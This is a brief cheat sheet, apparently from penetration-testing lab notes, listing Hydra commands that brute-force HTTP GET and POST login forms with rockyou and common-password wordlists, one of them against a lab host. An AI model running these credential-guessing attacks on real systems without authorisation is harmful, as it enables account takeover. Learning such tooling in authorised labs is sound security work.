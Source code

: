 # Hydra Brute-Forcing

hydra -l <user> -P /usr/share/wordlists/rockyou.txt <target_ip> -s <target_port> http-get

hydra -l <user> -P /usr/share/wordlists/rockyou.txt <target_ip> -s <target_port> http-post-form 

hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /root/Desktop/wordlists/100-common-passwords.txt target.ine.local http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid username or password"
